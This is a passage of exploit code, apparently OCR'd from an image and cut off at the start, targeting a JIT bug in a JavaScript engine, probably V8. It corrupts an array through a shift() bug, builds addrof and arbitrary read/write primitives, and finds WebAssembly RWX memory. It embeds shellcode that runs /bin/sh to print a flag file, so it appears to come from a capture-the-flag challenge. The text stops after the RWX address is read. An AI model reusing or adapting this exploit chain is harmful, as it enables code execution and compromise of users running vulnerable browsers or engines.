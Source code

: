 ```js
    
    v51206.shift();
    Array.prototype.unshift.call(v51206);
    return v51206;
    v51206.shift();
    v5568 = 2;

    var v22083 = new Array(0);
   
    v51206[5] = 1337;
    v51206[7] = v51206[5];
    v51206.shift();

    var v51606 = new Array(Math.min(0, v5568));
    
    v22083[3] = v51206;
    v51206[7] = v51606;

    return v22083.toString();
}

for (let i = 0; i < 0x10000; i++) {
    jit_func(true);
}

let wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
let wasm_mod = new WebAssembly.Module(wasm_code);                               
let wasm_instance = new WebAssembly.Instance(wasm_mod);                         
let f = wasm_instance.exports.main;

let shellcode = [0x99583b6a, 0x622fbb48, 0x732f6e69, 0x48530068, 0x2d68e789, 0x48000063, 0xe852e689, 0x0000000e, 
0x20746163, 0x67616c66, 0x263e3120, 0x57560030, 0x0fe68948, 0x00000005];

var corrupted_arr = jit_func(false);

var oob_arr = [1.1];
let addrof_arr = [wasm_instance];
let c_arb_rw_arr = [1.1];

corrupted_arr[13] = {};

function addrof(obj) {
  addrof_arr[0] = obj;
  return (oob_arr[6].f2i() >> 32n);
}

function c_read(addr) {
  oob_arr[10] = ((addr-8n) + (2n << 32n)).i2f();
  return c_arb_rw_arr[0].f2i();
}

function c_write64(addr, val) {
  oob_arr[10] = ((addr-8n) + (2n << 32n)).i2f();
  c_arb_rw_arr[0] = val.i2f();
}

wasm_instance_addr = addrof(wasm_instance);
rwx = c_read(wasm_instance_addr+0x68n);

```